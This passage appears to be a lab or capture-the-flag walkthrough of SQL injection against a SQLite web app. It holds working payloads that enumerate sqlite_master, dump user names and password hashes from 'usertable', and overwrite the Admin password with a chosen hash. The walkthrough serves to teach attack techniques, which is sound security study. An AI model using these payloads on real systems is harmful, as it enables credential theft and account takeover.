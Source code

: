 "The group_concat() function returns a string which is the concatenation of all non-NULL values of X. If parameter Y is present then it is used as the separator between instances of X. A comma (",") is used as the separator if Y is omitted. The order of the concatenated elements is arbitrary."
```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

By injecting the code above, we can see that the only table in the database is called "usertable":

![image](https://user-images.githubusercontent.com/89842187/133097582-fc686fbc-805e-45dc-8d21-d825d69ab711.png)

We can then continue by extract all the column names from the usertable:

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='

```

And as can be seen below, the usertable contains the columns: UID, name, profileID, salary, passportNr, email, nickName, and password:

![image](https://user-images.githubusercontent.com/89842187/133097646-362956b0-6f78-46be-a6a1-fce8219171b2.png)

By knowing the names of the columns, we can extract the data we want from the database. For example, the query below will extract profileID, name, and passwords from usertable. The subquery is using the group_concat() function to dump all the information simultaneously, and the || operator is "concatenate" - it joins together the strings of its operands (sqlite.org).

',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='

![image](https://user-images.githubusercontent.com/89842187/133097674-ca0b58c6-461f-4a61-afa7-43c30be0a26f.png)


After having dumped the data from the database, we can see that the password is hashed. This means that we will need to identify the correct hash type used if we want to update the password for a user. Using a hash identifier such as hash-identifier, we can identify the hash as SHA256:

![image](https://user-images.githubusercontent.com/89842187/133097706-82437371-f1e3-4613-9c25-c00b27a6bb57.png)

There are multiple ways of generating a sha256 hash. For example, we can use https://gchq.github.io/CyberChef/:

![image](https://user-images.githubusercontent.com/89842187/133097729-452b8423-1fcd-4840-b832-04ef50d4f0b8.png)

We can then update the password for the Admin user with the following code:


```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -

```

# Vulnerable broken authentication
